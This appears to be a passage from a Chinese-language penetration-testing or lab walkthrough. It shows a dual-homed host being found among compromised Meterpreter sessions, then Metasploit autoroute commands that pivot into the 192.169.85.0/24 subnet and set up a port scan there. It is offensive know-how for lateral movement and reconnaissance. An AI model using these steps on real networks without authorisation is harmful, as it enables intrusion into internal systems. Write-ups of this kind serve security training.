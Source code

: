 逐一进入升级后的会话通过`ipconfig`查看网卡，寻找拥有双网卡的主机。经查看，8号会话符合要求，主机IP为`192.170.84.5`。

![sessions-8](img/sessions-8.png)

- 添加路由实现内网访问，扫描存活主机。

```
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p

# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
```
